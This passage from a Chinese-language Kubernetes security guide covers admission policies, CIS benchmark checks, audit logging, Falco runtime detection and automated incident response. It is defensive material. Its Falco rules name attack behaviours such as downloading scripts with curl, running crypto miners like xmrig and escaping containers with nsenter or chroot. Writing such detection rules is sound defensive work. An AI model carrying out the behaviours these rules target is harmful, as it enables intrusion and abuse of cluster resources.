      
      violation[{"msg": msg}] {
        c := input.review.object.spec.initContainers[_]
        c.securityContext.privileged
        msg := sprintf("特权初始化容器被禁止: %v", [c.name])
      }

---
# ========== 应用约束(Constraint) ==========
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sPSPPrivileged
metadata:
  name: no-privileged-containers
spec:
  match:
    kinds:
    - apiGroups: [""]
      kinds: ["Pod"]
    excludedNamespaces:
    - kube-system  # 系统命名空间豁免

---
# ========== 合规报告自动生成 ==========
apiVersion: wgpolicyk8s.io/v1alpha2
kind: PolicyReport
metadata:
  name: security-policy-report
  namespace: production
summary:
  pass: 45
  fail: 3
  warn: 2
  error: 0
  skip: 1
results:
- policy: require-ro-rootfs
  rule: require-ro-rootfs
  result: fail
  scored: true
  severity: high
  source: kyverno
  resources:
  - apiVersion: v1
    kind: Pod
    name: nginx-deployment-abc123
    namespace: production
  message: "容器必须使用只读根文件系统"
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 后果 |
|------|---------|------|
| ❌ 一上来就用enforce模式 | ✅ 先用audit模式观察,再切换enforce | 误杀合法应用导致业务中断 |
| ❌ 所有命名空间同一套策略 | ✅ 开发/测试环境宽松,生产严格 | 开发环境过于严格影响效率 |
| ❌ 只配置策略不看报告 | ✅ 定期查看PolicyReport,修复违规 | 审计模式失去意义 |
| ❌ 策略规则过于复杂 | ✅ 从简单规则开始,逐步完善 | 复杂规则难以维护和调试 |
| ❌ 不豁免系统组件 | ✅ kube-system等系统命名空间需要豁免 | 系统组件无法启动 |

**策略调试技巧**:
```bash
# 查看Kyverno策略状态
kubectl get clusterpolicy

# 查看策略报告
kubectl get policyreport -A

# 测试策略(dry-run模式)
kubectl apply -f pod.yaml --dry-run=server

# 查看策略违规详情
kubectl describe policyreport <report-name> -n <namespace>

# OPA Gatekeeper约束审计
kubectl get constraint -A
kubectl describe constraint <constraint-name>
```

#### CIS Benchmark自动化检查

> **🔰 初学者理解**: CIS Benchmark是K8s的"建筑安全标准"——就像房屋需要符合消防规范一样,K8s集群也有一套安全基线标准。kube-bench工具会自动检查你的集群是否符合这些标准,给出不合格项和修复建议。

**🔧 工作原理**

CIS Benchmark检查分为不同层面:

1. **Master节点**: API Server、etcd、调度器、控制器配置安全
2. **Worker节点**: Kubelet、容器运行时、系统配置
3. **网络**: NetworkPolicy、Service配置
4. **RBAC**: 权限配置、ServiceAccount管理
5. **日志审计**: 审计日志配置、日志留存

kube-bench通过SSH连接到节点,读取配置文件和进程参数,与CIS标准对比。

**📝 最小示例**

```yaml
# ========== kube-bench作业配置 ==========
apiVersion: batch/v1
kind: Job
metadata:
  name: kube-bench
  namespace: security
spec:
  template:
    spec:
      hostPID: true  # 需要访问宿主机进程
      hostNetwork: true
      containers:
      - name: kube-bench
        image: aquasec/kube-bench:latest
        command: ["kube-bench"]
        args:
        - --version
        - "1.27"  # 指定K8s版本
        - --json  # JSON格式输出
        volumeMounts:
        - name: var-lib-etcd
          mountPath: /var/lib/etcd
          readOnly: true
        - name: var-lib-kubelet
          mountPath: /var/lib/kubelet
          readOnly: true
        - name: etc-kubernetes
          mountPath: /etc/kubernetes
          readOnly: true
        - name: etc-systemd
          mountPath: /etc/systemd
          readOnly: true
      restartPolicy: Never
      volumes:
      - name: var-lib-etcd
        hostPath:
          path: /var/lib/etcd
      - name: var-lib-kubelet
        hostPath:
          path: /var/lib/kubelet
      - name: etc-kubernetes
        hostPath:
          path: /etc/kubernetes
      - name: etc-systemd
        hostPath:
          path: /etc/systemd

---
# ========== 自动修复脚本配置 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: cis-remediation
  namespace: security
data:
  fix-apiserver.sh: |
    #!/bin/bash
    # CIS 1.2.1 修复: 启用审计日志
    if ! grep -q "audit-log-path" /etc/kubernetes/manifests/kube-apiserver.yaml; then
      echo "添加审计日志配置..."
      # 备份原文件
      cp /etc/kubernetes/manifests/kube-apiserver.yaml{,.bak}
      # 添加审计参数
      sed -i '/- kube-apiserver/a\    - --audit-log-path=/var/log/kubernetes/audit.log' \
        /etc/kubernetes/manifests/kube-apiserver.yaml
      sed -i '/- kube-apiserver/a\    - --audit-log-maxage=30' \
        /etc/kubernetes/manifests/kube-apiserver.yaml
      sed -i '/- kube-apiserver/a\    - --audit-log-maxbackup=10' \
        /etc/kubernetes/manifests/kube-apiserver.yaml
    fi
    
    # CIS 1.2.20 修复: 禁用匿名认证
    if ! grep -q "anonymous-auth=false" /etc/kubernetes/manifests/kube-apiserver.yaml; then
      echo "禁用匿名认证..."
      sed -i '/- kube-apiserver/a\    - --anonymous-auth=false' \
        /etc/kubernetes/manifests/kube-apiserver.yaml
    fi

  fix-kubelet.sh: |
    #!/bin/bash
    # CIS 4.2.1 修复: 禁用匿名认证
    sed -i 's/anonymous-auth: true/anonymous-auth: false/' /var/lib/kubelet/config.yaml
    
    # CIS 4.2.3 修复: 只读端口设为0
    if ! grep -q "read-only-port: 0" /var/lib/kubelet/config.yaml; then
      echo "read-only-port: 0" >> /var/lib/kubelet/config.yaml
    fi
    
    # 重启kubelet使配置生效
    systemctl restart kubelet

---
# ========== 合规检查定时任务 ==========
apiVersion: batch/v1
kind: CronJob
metadata:
  name: cis-benchmark-daily
  namespace: security
spec:
  schedule: "0 2 * * *"  # 每天凌晨2点执行
  jobTemplate:
    spec:
      template:
        spec:
          hostPID: true
          containers:
          - name: kube-bench
            image: aquasec/kube-bench:latest
            command:
            - sh
            - -c
            - |
              # 执行检查
              kube-bench --json > /tmp/cis-report.json
              
              # 统计结果
              FAIL_COUNT=$(jq '[.Controls[].tests[].results[] | select(.status=="FAIL")] | length' /tmp/cis-report.json)
              
              # 发送告警(如果有失败项)
              if [ "$FAIL_COUNT" -gt 0 ]; then
                curl -X POST -H 'Content-type: application/json' \
                  --data "{\"text\":\"⚠️ CIS Benchmark检查发现 $FAIL_COUNT 个不合规项\"}" \
                  $SLACK_WEBHOOK_URL
              fi
              
              # 上传报告到S3
              aws s3 cp /tmp/cis-report.json s3://compliance-reports/cis/$(date +%Y%m%d).json
            env:
            - name: SLACK_WEBHOOK_URL
              valueFrom:
                secretKeyRef:
                  name: slack-webhook
                  key: url
          restartPolicy: OnFailure
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 影响 |
|------|---------|------|
| ❌ 运行一次kube-bench就完事 | ✅ 定期自动化检查(每日/每周) | 配置漂移导致不合规 |
| ❌ 所有告警都要修复 | ✅ 基于风险评估决定优先级 | 某些检查不适用于云托管集群 |
| ❌ 手动修改配置文件 | ✅ 通过IaC(Terraform/Ansible)管理 | 手动修改容易出错且难以追溯 |
| ❌ 只检查Master不检查Worker | ✅ 所有节点类型都要检查 | Worker节点漏洞导致容器逃逸 |
| ❌ 不验证修复效果 | ✅ 修复后重新运行kube-bench | 修复不生效或引入新问题 |

**CIS合规检查清单**:
```bash
# 运行完整CIS检查
kube-bench --benchmark cis-1.7

# 只检查Master节点
kube-bench master

# 只检查Worker节点
kube-bench node

# 生成JSON报告
kube-bench --json > cis-report.json

# 查看失败项摘要
kube-bench | grep "\[FAIL\]"

# 检查特定控制项
kube-bench --check 1.2.1
```

### 3.2 自动化合规检查

| 检查类别 | 检查项 | 自动化工具 | 检查频率 | 告警级别 |
|----------|--------|------------|----------|----------|
| **身份认证** | 多因素认证启用 | OPA/Gatekeeper | 实时 | Critical |
| **访问控制** | RBAC权限最小化 | RBAC Lookup工具 | 每日 | High |
| **网络安全** | NetworkPolicy配置 | kube-score | 每小时 | Medium |
| **数据保护** | etcd加密配置 | kube-bench | 每日 | High |
| **审计日志** | 审计策略完整性 | audit2rbac | 实时 | Medium |
| **镜像安全** | 镜像漏洞扫描 | Trivy Operator | 每次部署 | High |
| **配置安全** | 安全基线检查 | Kubeaudit | 每小时 | Medium |
| **备份恢复** | 备份策略验证 | Velero检查 | 每日 | High |

### 3.3 合规自动化实施

```yaml
# ========== 合规检查策略 ==========
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: compliance-automation
spec:
  validationFailureAction: audit  # 审计模式，不阻断但记录
  background: true
  rules:
  # SOC2合规 - 访问日志记录
  - name: soc2-access-logging
    match:
      any:
      - resources:
          kinds:
          - Pod
    validate:
      message: "所有Pod必须配置访问日志记录"
      pattern:
        spec:
          containers:
          - env:
            - name: "ENABLE_ACCESS_LOGGING"
              value: "true"
              
  # PCI-DSS合规 - 网络隔离
  - name: pci-network-isolation
    match:
      any:
      - resources:
          kinds:
          - NetworkPolicy
    validate:
      message: "处理支付数据的服务必须有明确的网络策略"
      pattern:
        spec:
          podSelector:
            matchLabels:
              data.classification: "payment"
          policyTypes:
          - Ingress
          - Egress
          
  # HIPAA合规 - 数据加密
  - name: hipaa-data-encryption
    match:
      any:
      - resources:
          kinds:
          - PersistentVolumeClaim
    validate:
      message: "医疗数据存储必须启用加密"
      pattern:
        metadata:
          annotations:
            encryption.enabled: "true"
            
  # GDPR合规 - 数据处理记录
  - name: gdpr-data-processing
    match:
      any:
      - resources:
          kinds:
          - Deployment
    preconditions:
      any:
      - key: "{{ request.object.metadata.labels.\"handles-personal-data\" }}"
        operator: Equals
        value: "true"
    validate:
      message: "处理个人数据的应用必须记录数据处理目的"
      pattern:
        metadata:
          annotations:
            data.processing.purpose: "?*"
            data.retention.period: "?*"

---
# ========== 合规监控仪表板 ==========
apiVersion: grafana.integreatly.org/v1beta1
kind: GrafanaDashboard
metadata:
  name: compliance-monitoring
  namespace: monitoring
spec:
  json: |
    {
      "dashboard": {
        "title": "合规自动化监控仪表板",
        "panels": [
          {
            "title": "合规状态概览",
            "type": "stat",
            "targets": [
              {
                "expr": "compliance_checks_passed_total / compliance_checks_total * 100",
                "legendFormat": "整体合规率"
              },
              {
                "expr": "count(kyverno_policy_results_total{rule_result=\"fail\",policy_name=~\"compliance.*\"})",
                "legendFormat": "违规项数量"
              }
            ]
          },
          {
            "title": "各合规标准状态",
            "type": "barchart",
            "targets": [
              {
                "expr": "compliance_standard_status{standard=\"soc2\"}",
                "legendFormat": "SOC2"
              },
              {
                "expr": "compliance_standard_status{standard=\"iso27001\"}",
                "legendFormat": "ISO 27001"
              },
              {
                "expr": "compliance_standard_status{standard=\"pci-dss\"}",
                "legendFormat": "PCI-DSS"
              }
            ]
          },
          {
            "title": "违规趋势分析",
            "type": "graph",
            "targets": [
              {
                "expr": "increase(kyverno_policy_results_total{rule_result=\"fail\"}[1h])",
                "legendFormat": "每小时新增违规"
              }
            ]
          },
          {
            "title": "合规检查详情",
            "type": "table",
            "targets": [
              {
                "expr": "kyverno_policy_results_total{rule_result=\"fail\"}",
                "format": "table"
              }
            ]
          }
        ]
      }
    }

---
# ========== 自动化合规修复 ==========
apiVersion: batch/v1
kind: CronJob
metadata:
  name: compliance-remediation
  namespace: security
spec:
  schedule: "0 */6 * * *"  # 每6小时执行一次
  jobTemplate:
    spec:
      template:
        spec:
          serviceAccountName: compliance-operator
          containers:
          - name: compliance-fix
            image: security/compliance-remediation:latest
            command:
            - /bin/sh
            - -c
            - |
              # 自动修复常见的合规问题
              echo "开始合规自动修复..."
              
              # 修复缺失的NetworkPolicy
              kubectl get ns -o name | while read ns; do
                if ! kubectl get networkpolicy -n ${ns##*/} 2>/dev/null; then
                  echo "为命名空间 ${ns##*/} 创建默认网络策略"
                  kubectl apply -f - <<EOF
              apiVersion: networking.k8s.io/v1
              kind: NetworkPolicy
              metadata:
                name: default-deny-all
                namespace: ${ns##*/}
              spec:
                podSelector: {}
                policyTypes:
                - Ingress
                - Egress
              EOF
                fi
              done
              
              # 修复不安全的Pod配置
              kubectl get pods -A -o json | jq -r '.items[] | select(.spec.containers[].securityContext == null or .spec.containers[].securityContext.runAsNonRoot != true) | "\(.metadata.namespace)/\(.metadata.name)"' | while read pod; do
                echo "修复不安全的Pod配置: $pod"
                # 这里可以调用具体的修复脚本
              done
              
              echo "合规自动修复完成"
          restartPolicy: OnFailure
```

---

## 4. 威胁检测与响应

> **🔰 初学者导读**: 即使做好了防护,也需要"安防摄像头"——运行时威胁检测系统。Falco可以监控容器的异常行为(如exec进入容器、读取敏感文件),及时告警。

### 4.1 运行时威胁检测

| 威胁类型 | 检测指标 | 检测工具 | 告警阈值 | 响应动作 |
|----------|----------|----------|----------|----------|
| **异常进程** | 进程创建、execve调用 | Falco | 高风险进程创建 | 终止进程、隔离容器 |
| **文件篡改** | 文件创建、修改、删除 | Sysdig Secure | 敏感文件修改 | 告警、版本回滚 |
| **网络异常** | 异常连接、数据外传 | Cilium Hubble | 未知目的地连接 | 断开连接、阻断流量 |
| **权限提升** | Capabilities变更、setuid调用 | Auditd | 权限提升尝试 | 终止进程、记录日志 |
| **加密挖矿** | CPU使用模式、网络连接 | Node Exporter | 异常CPU使用 | 终止容器、节点隔离 |

#### 审计日志体系建设

> **🔰 初学者理解**: 审计日志就像银行的交易记录——每一笔操作(创建Pod、修改Secret、删除Deployment)都会被记录下来,出问题时可以追溯"谁在什么时候做了什么"。K8s审计日志记录所有API请求,是安全事件调查的关键证据。

**🔧 工作原理**

K8s审计系统在API Server层面工作:

1. **请求拦截**: API Server接收到请求后,先生成审计事件
2. **阶段标记**: 记录请求的不同阶段(RequestReceived、ResponseStarted、ResponseComplete、Panic)
3. **策略匹配**: 根据审计策略决定记录哪些信息(元数据、请求体、响应体)
4. **后端存储**: 发送到日志文件、Webhook或动态审计后端

**📝 最小示例**

```yaml
# ========== 审计策略配置 ==========
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
# 不记录只读请求(get/list/watch)
- level: None
  verbs: ["get", "list", "watch"]

# 记录Secret的元数据,但不记录内容(防止泄露)
- level: Metadata
  resources:
  - group: ""
    resources: ["secrets"]

# 详细记录RBAC变更(包含请求和响应体)
- level: RequestResponse
  resources:
  - group: "rbac.authorization.k8s.io"
    resources: ["roles", "rolebindings", "clusterroles", "clusterrolebindings"]

# 详细记录生产命名空间的所有操作
- level: RequestResponse
  namespaces: ["production", "prod-*"]
  verbs: ["create", "update", "patch", "delete"]

# 记录认证失败
- level: Metadata
  omitStages:
  - RequestReceived
  users: ["system:anonymous"]

# 记录删除操作
- level: Request
  verbs: ["delete", "deletecollection"]

# 默认规则:记录元数据
- level: Metadata
  omitStages:
  - RequestReceived

---
# ========== API Server审计配置 ==========
# /etc/kubernetes/manifests/kube-apiserver.yaml
apiVersion: v1
kind: Pod
metadata:
  name: kube-apiserver
  namespace: kube-system
spec:
  containers:
  - name: kube-apiserver
    image: k8s.gcr.io/kube-apiserver:v1.28.0
    command:
    - kube-apiserver
    # 审计日志配置
    - --audit-policy-file=/etc/kubernetes/audit-policy.yaml
    - --audit-log-path=/var/log/kubernetes/audit.log
    - --audit-log-maxage=30      # 保留30天
    - --audit-log-maxbackup=10   # 保留10个备份
    - --audit-log-maxsize=100    # 单个文件100MB
    # Webhook后端(可选)
    - --audit-webhook-config-file=/etc/kubernetes/audit-webhook.yaml
    - --audit-webhook-batch-max-size=100
    volumeMounts:
    - name: audit-policy
      mountPath: /etc/kubernetes/audit-policy.yaml
      readOnly: true
    - name: audit-logs
      mountPath: /var/log/kubernetes
  volumes:
  - name: audit-policy
    hostPath:
      path: /etc/kubernetes/audit-policy.yaml
      type: File
  - name: audit-logs
    hostPath:
      path: /var/log/kubernetes
      type: DirectoryOrCreate

---
# ========== 审计日志Webhook后端 ==========
apiVersion: v1
kind: Config
clusters:
- name: audit-backend
  cluster:
    server: http://audit-collector.security.svc.cluster.local:9000/audit
contexts:
- name: default
  context:
    cluster: audit-backend
    user: ""
current-context: default
users: []

---
# ========== Falco审计规则(补充K8s审计日志) ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: falco-audit-rules
  namespace: falco
data:
  k8s-audit-rules.yaml: |
    - rule: Unauthorized kubectl Access
      desc: Detect unauthorized kubectl access attempts
      condition: >
        ka.verb in (create,update,delete) and
        not ka.user.name in (system:serviceaccount:kube-system:*)
      output: >
        Unauthorized K8s API access (user=%ka.user.name verb=%ka.verb 
        resource=%ka.target.resource namespace=%ka.target.namespace)
      priority: WARNING
      source: k8s_audit
      
    - rule: Secret Access from Non-Allowed Namespace
      desc: Detect secret access from unexpected namespaces
      condition: >
        ka.target.resource="secrets" and
        ka.verb in (get,list) and
        not ka.target.namespace in (default,kube-system)
      output: >
        Suspicious secret access (user=%ka.user.name secret=%ka.target.name 
        namespace=%ka.target.namespace)
      priority: WARNING
      source: k8s_audit
      
    - rule: ConfigMap Modification
      desc: Detect modifications to ConfigMaps
      condition: >
        ka.target.resource="configmaps" and
        ka.verb in (update,patch,delete) and
        ka.target.namespace="production"
      output: >
        ConfigMap modified in production (user=%ka.user.name 
        configmap=%ka.target.name verb=%ka.verb)
      priority: INFO
      source: k8s_audit
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 影响 |
|------|---------|------|
| ❌ 记录所有请求的完整内容 | ✅ 根据敏感度分级记录(Metadata/Request/RequestResponse) | 日志量巨大,Secret等敏感信息泄露 |
| ❌ 审计日志存储在本地磁盘 | ✅ 实时发送到SIEM或日志中心(ELK/Splunk) | 攻击者可以删除本地日志销毁证据 |
| ❌ 不设置日志轮转策略 | ✅ 配置maxage/maxbackup/maxsize | 磁盘被日志填满导致API Server崩溃 |
| ❌ 记录system:anonymous的所有请求 | ✅ 只记录认证失败,过滤健康检查 | 大量无用日志淹没真正的威胁 |
| ❌ 从不分析审计日志 | ✅ 定期审查异常模式,建立基线 | 审计日志形同虚设 |

**审计日志分析示例**:
```bash
# 查看所有删除操作
jq 'select(.verb=="delete")' /var/log/kubernetes/audit.log

# 查看特定用户的操作
jq 'select(.user.username=="admin@example.com")' /var/log/kubernetes/audit.log

# 统计每个用户的操作次数
jq -r '.user.username' /var/log/kubernetes/audit.log | sort | uniq -c | sort -nr

# 查找失败的认证请求
jq 'select(.responseStatus.code >= 400)' /var/log/kubernetes/audit.log

# 查找Secret访问记录
jq 'select(.objectRef.resource=="secrets")' /var/log/kubernetes/audit.log
```

#### 异常检测与威胁响应

> **🔰 初学者理解**: 异常检测就像信用卡的欺诈检测系统——你平时在北京消费,突然出现一笔纽约的交易,系统会立即告警。K8s异常检测通过学习正常行为模式(如Pod数量、API调用频率),当出现偏差时自动告警。

**🔧 工作原理**

异常检测使用机器学习和规则引擎结合:

1. **基线建立**: 收集30天历史数据,建立正常行为基线(CPU使用、网络流量、API调用模式)
2. **实时监控**: 持续采集当前指标,与基线对比
3. **异常识别**: 使用统计方法(如3σ原则)或机器学习模型识别异常
4. **威胁评分**: 综合多个维度计算威胁分数,高分触发告警
5. **自动响应**: 根据Playbook执行预定义响应动作(隔离、限流、人工介入)

**📝 最小示例**

```yaml
# ========== Prometheus异常检测规则 ==========
apiVersion: monitoring.coreos.com/v1
kind: PrometheusRule
metadata:
  name: security-anomaly-detection
  namespace: monitoring
spec:
  groups:
  - name: security.anomalies
    interval: 30s
    rules:
    # 检测异常的Pod创建速率
    - alert: AbnormalPodCreationRate
      expr: |
        rate(kube_pod_created[5m]) > 
        (avg_over_time(kube_pod_created[7d]) + 3 * stddev_over_time(kube_pod_created[7d]))
      for: 5m
      labels:
        severity: warning
        category: anomaly
      annotations:
        summary: "异常的Pod创建速率"
        description: "过去5分钟Pod创建速率超过7天平均值3个标准差"

    # 检测异常的API调用模式
    - alert: UnusualAPICallPattern
      expr: |
        sum(rate(apiserver_request_total{verb="delete"}[5m])) by (user) >
        sum(avg_over_time(apiserver_request_total{verb="delete"}[7d])) by (user) * 5
      for: 2m
      labels:
        severity: critical
        category: anomaly
      annotations:
        summary: "检测到异常的API删除操作"
        description: "用户 {{ $labels.user }} 的删除操作频率异常升高"

    # 检测夜间异常活动
    - alert: UnauthorizedNighttimeActivity
      expr: |
        sum(rate(apiserver_request_total[5m])) by (user) > 10 and
        hour() >= 22 or hour() <= 6
      for: 5m
      labels:
        severity: warning
        category: anomaly
      annotations:
        summary: "检测到非工作时间的API活动"
        description: "用户 {{ $labels.user }} 在非工作时间有高频API调用"

---
# ========== Falco自动响应配置 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: falco-response-engine
  namespace: falco
data:
  response-config.yaml: |
    responses:
    # 响应1: 容器内执行Shell
    - rule: "Terminal Shell in Container"
      actions:
      - type: slack
        webhook_url: ${SLACK_WEBHOOK}
        message: "🚨 检测到容器内执行Shell: {{.Output}}"
      - type: isolate_pod
        namespace: "{{.OutputFields.ka_namespace}}"
        pod_name: "{{.OutputFields.ka_pod_name}}"
      - type: create_ticket
        system: jira
        project: SECURITY
        priority: high

    # 响应2: 敏感文件访问
    - rule: "Read Sensitive File"
      actions:
      - type: kill_process
        pid: "{{.OutputFields.proc_pid}}"
      - type: alert
        destination: pagerduty
        severity: critical
      - type: snapshot_container
        preserve_evidence: true

    # 响应3: 挖矿进程检测
    - rule: "Crypto Mining Activity"
      actions:
      - type: terminate_pod
        immediate: true
      - type: quarantine_node
        taint_key: "security/compromised"
      - type: notify
        channels: [slack, email, pagerduty]

---
# ========== 自动响应执行器 ==========
apiVersion: apps/v1
kind: Deployment
metadata:
  name: security-response-engine
  namespace: security
spec:
  replicas: 2
  selector:
    matchLabels:
      app: response-engine
  template:
    metadata:
      labels:
        app: response-engine
    spec:
      serviceAccountName: response-engine-sa
      containers:
      - name: engine
        image: security/response-engine:latest
        env:
        - name: SLACK_WEBHOOK
          valueFrom:
            secretKeyRef:
              name: alert-secrets
              key: slack-webhook
        - name: PAGERDUTY_API_KEY
          valueFrom:
            secretKeyRef:
              name: alert-secrets
              key: pagerduty-key
        volumeMounts:
        - name: falco-events
          mountPath: /var/run/falco
      volumes:
      - name: falco-events
        hostPath:
          path: /var/run/falco

---
# ========== 响应引擎权限配置 ==========
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: response-engine-role
rules:
# 允许删除Pod(隔离响应)
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["get", "list", "delete"]
# 允许修改Node污点(节点隔离)
- apiGroups: [""]
  resources: ["nodes"]
  verbs: ["get", "patch"]
# 允许创建NetworkPolicy(网络隔离)
- apiGroups: ["networking.k8s.io"]
  resources: ["networkpolicies"]
  verbs: ["create", "update"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: response-engine-binding
subjects:
- kind: ServiceAccount
  name: response-engine-sa
  namespace: security
roleRef:
  kind: ClusterRole
  name: response-engine-role
  apiGroup: rbac.authorization.k8s.io
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 后果 |
|------|---------|------|
| ❌ 刚上线就启用自动响应 | ✅ 先观察模式运行2周,调优后再启用 | 误杀正常应用导致业务中断 |
| ❌ 所有告警都实时通知 | ✅ 根据严重性分级(Critical→PagerDuty, Warning→Slack) | 告警疲劳,重要告警被忽略 |
| ❌ 基线数据量太少(<7天) | ✅ 至少收集30天数据建立可靠基线 | 正常的周期性波动被误判为异常 |
| ❌ 自动响应无人工审批 | ✅ Critical级别需要人工确认 | 误杀导致严重生产事故 |
| ❌ 不测试响应Playbook | ✅ 定期演练(每季度) | 真正攻击时发现响应流程失效 |

**异常检测调优技巧**:
```bash
# 查看过去7天的告警趋势
promtool query range 'ALERTS{alertstate="firing"}' \
  --start=$(date -d '7 days ago' +%s) \
  --end=$(date +%s) \
  --step=1h

# 分析误报率最高的规则
kubectl logs -n monitoring prometheus-0 | grep "firing" | \
  awk '{print $NF}' | sort | uniq -c | sort -nr

# 查看Falco事件统计
kubectl logs -n falco -l app=falco | jq -r '.priority' | sort | uniq -c

# 测试响应动作(模拟攻击)
kubectl exec -it test-pod -- bash  # 应触发Shell告警
```

### 4.2 安全事件响应流程



### 4.3 威胁情报集成

```yaml
# ========== 威胁检测规则配置 ==========
apiVersion: falco.org/v1
kind: FalcoRules
metadata:
  name: threat-detection-rules
  namespace: security
spec:
  rules:
  # 检测加密货币挖矿活动
  - rule: Crypto Mining Activity
    desc: Detect crypto mining processes and suspicious network connections
    condition: >
      spawned_process and proc.name in (xmrig, cgminer, bfgminer) or
      (outbound and fd.sport in (3333, 4444, 5555, 7777, 9999))
    output: >
      Suspicious crypto mining activity detected (user=%user.name command=%proc.cmdline connection=%fd.name)
    priority: CRITICAL
    tags: [mitre_execution, crypto_mining]
    
  # 检测容器逃逸尝试
  - rule: Container Escape Attempt
    desc: Detect attempts to escape from container to host
    condition: >
      spawned_process and proc.name in (chroot, nsenter) and
      container and not proc.pname in (docker-init, containerd-shim)
    output: >
      Potential container escape attempt detected (user=%user.name command=%proc.cmdline container=%container.id)
    priority: CRITICAL
    tags: [mitre_privilege_escalation, container_escape]
    
  # 检测恶意文件下载
  - rule: Malicious File Download
    desc: Detect download of potentially malicious files
    condition: >
      (evt.type=open or evt.type=openat) and
      fd.name contains ".sh" and
      proc.cmdline contains "curl" and
      proc.cmdline contains "http"
    output: >
      Suspicious script download detected (user=%user.name file=%fd.name command=%proc.cmdline)
    priority: HIGH
    tags: [mitre_command_and_control, malicious_download]
    
  # 检测横向移动
  - rule: Lateral Movement Detection
    desc: Detect unusual SSH connections and credential usage
    condition: >
      evt.type=execve and
      proc.name=ssh and
      user.name=root and
      not proc.cmdline contains "localhost"
    output: >
      Unusual SSH connection detected (user=%user.name command=%proc.cmdline)
    priority: MEDIUM
    tags: [mitre_lateral_movement, ssh_access]

---
# ========== 安全事件响应配置 ==========
apiVersion: response.ealco.io/v1
kind: SecurityPlaybook
metadata:
  name: incident-response-playbook
  namespace: security
spec:
  triggers:
  - name: critical-falco-alert
    source: falco
    severity: CRITICAL
    conditions:
    - rule_name in ["Crypto Mining Activity", "Container Escape Attempt"]
    
  - name: high-severity-vulnerability
    source: trivy
    severity: HIGH
    conditions:
    - vulnerability.cvss_score >= 7.0
    
  actions:
  # 自动响应动作
  - name: isolate-pod
    type: kubernetes
    action: "patch"
    target: "pod"
    patch:
      spec:
        tolerations:
        - key: "security/isolated"
          operator: "Exists"
          effect: "NoExecute"
          
  - name: terminate-process
    type: runtime
    action: "kill"
    target: "process"
    match:
      pid: "{{ .alert.process.pid }}"
      
  - name: block-network
    type: network
    action: "iptables"
    target: "host"
    rules:
    - chain: "INPUT"
      action: "DROP"
      source: "{{ .alert.connection.remote_ip }}"
      
  # 通知动作
  - name: slack-notification
    type: notification
    channel: "security-alerts"
    message: |
      🔴 Security Alert: {{ .alert.rule }}
      Severity: {{ .alert.priority }}
      Resource: {{ .alert.resource.name }}
      Time: {{ .alert.timestamp }}
      Details: {{ .alert.output }}
      
  - name: pagerduty-alert
    type: notification
    service: "PAGERDUTY_SERVICE_KEY"
    urgency: "high"
    message: "Critical security incident requiring immediate attention"
```

---

## 5. 安全运维最佳实践

> **🔰 初学者导读**: 安全运维是将安全融入日常运维流程,包括定期更新、漏洞修补、安全审计、应急响应。DevSecOps的理念是"安全左移"——越早发现问题修复成本越低。

### 5.1 安全左移策略

| 实践领域 | 具体措施 | 工具支持 | 实施要点 | 效果评估 |
|----------|----------|----------|----------|----------|
| **代码安全** | SAST静态分析、依赖检查 | SonarQube、Snyk | CI流水线集成、门禁控制 | 漏洞发现率、修复时效 |
| **镜像安全** | 构建时扫描、基础镜像管理 | Trivy、Anchore | 多阶段构建、可信源验证 | 镜像漏洞数、构建时间 |
| **配置安全** | 基础设施即代码安全检查 | Checkov、TFLint | GitOps流程、策略即代码 | 配置合规率、部署成功率 |
| **权限管理** | 最小权限原则、定期审查 | RBAC Lookup、OPA | JIT权限、自动回收 | 权限滥用率、合规检查 |
| **密钥管理** | 密钥轮换、外部密钥存储 | HashiCorp Vault、AWS Secrets Manager | 自动化轮换、访问审计 | 密钥泄露风险、轮换效率 |

#### 漏洞管理生命周期

> **🔰 初学者理解**: 漏洞管理就像定期体检——不是一次检查就完事,而是持续监控、及时修复、验证效果的闭环流程。从发现漏洞(Trivy扫描)→评估风险(CVSS评分)→修复(升级镜像)→验证(重新扫描)。

**🔧 工作原理**

漏洞管理遵循PDCA循环:

1. **发现(Identify)**: 通过扫描工具(Trivy/Grype)发现CVE漏洞
2. **评估(Assess)**: 根据CVSS评分、可利用性、业务影响评估优先级
3. **修复(Remediate)**: 升级依赖包、重建镜像、应用补丁
4. **验证(Verify)**: 重新扫描确认漏洞已修复
5. **追踪(Track)**: 记录修复过程,统计SLA达成率

**📝 最小示例**

```yaml
# ========== 漏洞管理自动化流水线 ==========
apiVersion: tekton.dev/v1beta1
kind: Pipeline
metadata:
  name: vulnerability-management
  namespace: security
spec:
  params:
  - name: IMAGE_URL
    description: "要扫描的镜像URL"
  - name: SEVERITY_THRESHOLD
    default: "HIGH"
    description: "漏洞严重性阈值"
  
  workspaces:
  - name: shared-data
  
  tasks:
  # 任务1: 扫描当前镜像
  - name: scan-current-image
    taskRef:
      name: trivy-scan
    params:
    - name: IMAGE
      value: $(params.IMAGE_URL)
    - name: FORMAT
      value: "json"
    workspaces:
    - name: output
      workspace: shared-data
  
  # 任务2: 分析漏洞并生成修复建议
  - name: analyze-vulnerabilities
    runAfter: ["scan-current-image"]
    taskSpec:
      workspaces:
      - name: data
      steps:
      - name: analyze
        image: python:3.11-slim
        script: |
          #!/usr/bin/env python3
          import json
          
          # 读取扫描结果
          with open('$(workspaces.data.path)/scan-result.json') as f:
              scan_data = json.load(f)
          
          vulnerabilities = []
          for result in scan_data.get('Results', []):
              for vuln in result.get('Vulnerabilities', []):
                  if vuln['Severity'] in ['CRITICAL', 'HIGH']:
                      vulnerabilities.append({
                          'id': vuln['VulnerabilityID'],
                          'package': vuln['PkgName'],
                          'current': vuln['InstalledVersion'],
                          'fixed': vuln.get('FixedVersion', 'N/A'),
                          'severity': vuln['Severity']
                      })
          
          # 生成修复建议
          print(f"发现 {len(vulnerabilities)} 个高危漏洞")
          for v in vulnerabilities:
              if v['fixed'] != 'N/A':
